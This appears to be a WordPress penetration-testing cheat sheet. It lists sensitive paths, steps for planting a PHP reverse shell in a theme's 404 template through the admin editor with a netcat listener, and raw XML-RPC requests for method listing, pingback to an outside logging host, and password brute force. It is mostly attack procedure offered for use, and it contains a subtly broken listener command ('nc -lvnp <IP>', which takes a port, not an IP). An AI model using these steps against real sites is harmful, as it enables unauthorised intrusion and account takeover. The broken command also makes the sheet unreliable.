 ```yaml
---
title: WordPress Pentesting
desc: Penetration testing on WordPress.
tags: [CMS, Web, WordPress]
alts: [Wpscan]
website:
render_with_liquid: false
---
```


## Directories

```
/author/admin/
/index.php/author/admin/
/license.txt
/readme.html
/wp-admin/
/wp-admin/upload.php
```

<br />

## Reverse Shell Injection (login required)

```
1. Access to dashboard (/wp-admin/).
2. Move to "Appearance" and select theme named "Twenty Seventeen".
3. Click "Theme Editor" or "Editor" in the "Appearance" section.
4. In the theme editor, click "404 Template (404.php)" on the right.
5. Copy and paste the code for Reverse Shell (https://github.com/pentestmonkey/php-reverse-shell).
6. Edit "IP" and "Port" in the code.
7. In your terminal, run 'nc -lvnp <IP>'.
8. Browse https://vulnerable.com/wp-content/themes/twentyseventeen/404.php
```

<br />

## XML-RPC (xmlrpc.php)

### 1. Get all methods

```xml
POST /xmlrpc.php HTTP/1.1
Host: vulnerable.com
...

<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```

### 2. Ping back

Use [PostBin](https://www.toptal.com/developers/postbin/).

```xml
POST /xmlrpc.php HTTP/1.1
Host: vulnerable.com
...

<?xml version="1.0" encoding="utf-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param><value><string>https://www.toptal.com/developers/postbin/xxxxxxxxxxxxx-xxxxxxxxxxxxx</string></value></param>
<param><value><string>http://vulnerable.com</string></value></param>
</params>
</methodCall>
```

### 3. Brute force users

It is recommended to use Burp Intruder.

```xml
POST /xmlrpc.php HTTP/1.1
Host: vulnerable.com
...

<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>username</value></param> 
<param><value>$password$</value></param> 
</params> 
</methodCall>
```